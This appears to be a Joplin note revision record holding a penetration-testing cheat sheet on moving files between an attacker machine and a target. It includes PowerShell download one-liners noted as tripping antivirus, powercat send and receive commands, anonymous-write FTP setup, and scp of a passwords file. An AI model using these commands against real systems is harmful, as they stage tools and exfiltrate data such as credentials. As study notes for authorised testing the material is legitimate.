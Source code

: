 id: 312934c450ca434786ab012f19f34400
parent_id: 
item_type: 1
item_id: b106972e6c2c4924a1c18862645e70ab
item_updated_time: 1643082057467
title_diff: "[{\"diffs\":[[1,\"Transferring Files\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":18}]"
body_diff: "[{\"diffs\":[[1,\"# Services to Host Files on your System: \\\n\\\nGeneral Options: \\\n\\\nFTP:\\\n\\\nInstall pyftpdlib\\\n- pip3 install pyftpdlib\\\n\\\nPure-ftpd\\\n- sudo apt install pure-ftpd\\\n- service pure-ftpd start\\\n\\\nRun (-w flag allows anonymous write access)\\\n- Python3 -m pyftpdlib -p 21 -w\\\n\\\nWeb: \\\n\\\n- Python3 -m http.server 443\\\n- service apache2 start\\\n\\\nPowershell: \\\n\\\nRaw (Will get flagged by AV/AMSI): \\\n\\\n- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'\\\n- powershell -c Invoke-WebRequest -Uri \\\"http://172.21.0.0\\\" -OutFile \\\"C:\\\\path\\\\file\\\"\\\n\\\n\\\nUse Powercat: \\\n\\\nSend File:\\\n    powercat -c 10.1.1.1 -p 443 -i C:\\\\inputfile\\\nRecieve File:\\\n    powercat -l -p 8000 -of C:\\\\inputfile\\\n\\\nLinux: \\\n\\\nscp: \\\n\\\n- scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2\\\n\\\nscp through ssh: \\\n\\\n- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory\\\n\\\nscp remote file to local system: \\\n\\\n- scp remote_username@172.21.0.2:/remote/file.txt /local/directory\\\n\\\n\\\n# Services to allow you to upload files to your system from the target: \\\n\\\n- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938\\\n    \"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1121}]"
metadata_diff: {"new":{"id":"b106972e6c2c4924a1c18862645e70ab","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1603156559785,"user_updated_time":1604937874428,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.686Z
created_time: 2022-02-28T02:44:25.686Z
type_: 13